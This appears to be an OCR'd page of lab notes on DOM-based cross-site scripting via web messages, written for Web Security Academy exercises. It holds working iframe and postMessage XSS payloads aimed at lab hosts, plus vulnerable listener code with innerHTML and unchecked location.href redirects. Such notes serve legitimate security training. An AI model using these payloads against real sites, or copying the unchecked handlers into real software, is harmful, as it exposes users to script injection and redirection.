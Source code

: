 ```
	<html>
		<body style="width: 100vw; height: 100vw;">
		<iframe name="initial" src="https://0a680050041586058224a1d600ef0051.web-security-academy.net/#" onload="if (this.name === 'initial') { this.src +='<img src=x onerror=print()>' ; this.name='loaded'; }">
		</body>
	</html>
```

You can host this code on a website and deliver it to the victim. For example URL: https://exploit-0a87009d04b586d18291a08a01bf009b.exploit-server.net/exploit
##### ***DOM XSS with web messages***
If a website is receiving messages through the event listener and listening for the `message` event, you can exploit this with an exploit server and an iframe to post malicious JavaScript, this is vulnerable:
```javascript
<script>
	window.addEventListener('message', function(e) {
		document.getElementById('ads').innerHTML = e.data;
	})
</script>
```

The `window.postmessage()` method allow cross-origin communication between window objects, or a page with an iframe embedded in it. To exploit this, you can create an exploit server with this content:
```html
<head>
	<style>
		#target_website {
			width: 100%;
			height: 100%;
			box-sizing: border-box;
			}
	</style>
</head>
<iframe id="target_website" scrolling="no" frameborder="0" src="https://0a4f0023040e600f82fb5638001b00e9.web-security-academy.net"></iframe>
<script>
        let iframe = document.getElementById('target_website');

        iframe.addEventListener('load', function() {
            iframe.contentWindow.postMessage('<img src=x onerror=print()>','https://0a4f0023040e600f82fb5638001b00e9.web-security-academy.net');
        });
</script>
```

Here is a vulnerable open redirection that changes the URL with `location.href`, this code does not perform any checks against the origin, and the strings `https` and `http` can be anywhere in the `e.data` object.
```javascript
<script>
	window.addEventListener('message', function(e) {
		var url = e.data;
		if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
			location.href = url;
		}
	}, false);
</script>
```

